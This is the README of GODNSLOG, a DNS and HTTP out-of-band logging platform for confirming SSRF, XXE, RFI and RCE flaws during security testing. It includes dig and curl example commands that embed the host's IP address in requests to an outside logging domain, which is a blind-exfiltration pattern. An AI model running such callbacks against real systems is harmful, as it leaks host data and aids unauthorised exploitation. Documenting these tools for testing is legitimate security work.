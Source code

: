 # 简介

GODNS功能特性:
- 多用户
- DNSLOG
- HTTPLOG 记录
- DNS Rebinding
- 记录结果推送

CEYE.IO platform, which monitoring DNS queries and HTTP requests through its own DNS server and HTTP server, it can also create custom files as online payloads. It can help security researchers collect information when testing vulnerabilities (e.g. SSRF/XXE/RFI/RCE).

每一个`GODNSLOG`用户会分配一个唯一的域名，域名前缀为`shortId`是godnslog平台的唯一用户标识。 `安全设置`页面中如下图

![](basic-security.png)

`bkkpdcy7lo84.godnslog.com`是给当前用户分配的唯一域名，`bkkpdcy7lo84`为`shortId`区分用户, 三级域名`*.bkkpdcy7lo84.godnslog.com`下所有DNS请求记录均会被记录下来，`*`字段由用户自定义，建议跟扫描ID对应起来，用来关联扫描结果。 


GODNSLOG在设计中大量参考了[CEYE.IO](http://ceye.io)，包括本文档的内容也是，在此向`CEYE.IO`平台致敬。

## DNS LOG功能

每个用户分配一个唯一的三级域名，该域名或其子域名的所有解析记录均会被记录。
请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时


```bash
dig `/sbin/ifconfig eth0|grep inet|grep -v 127.0.0.1|grep -v inet6|awk '{print $2}'|tr -d "addr:"`.ktqlujjpgc4j.godns.vip
```

系统生成域名为`{$variable}.ktqlujjpgc4j.godns.vip`，其中`ktqlujjpgc4j`是用户唯一shortId，`{$variable}`为用户自定义变量


![](dnslog.png)


DNSLOG 记录内容包含以下字段：
- domain
- IP
- 记录时间

请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时



## HTTP LOG功能

GODNSLOG 的`/log/`接口提供了HTTPLOG的功能，访问`http://*.{shortId}.godnslog.com/log/?p=httptest`的记录都会被记录下来

记录内容包含以下字段:

- IP
- Method
- Path
- User-Agent
- Content-Type 类型
- Data body数据
- 记录时间

```bash
curl http://ktqlujjpgc4j.godns.vip/log/`/sbin/ifconfig eth0|grep inet|grep -v 127.0.0.1|grep -v inet6|awk '{print $2}'|tr -d "addr:"`
```
请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时


## 致谢

[CEYE.IO](http://ceye.io)
[dnslog](https://github.com/fanjq99/dnslog)
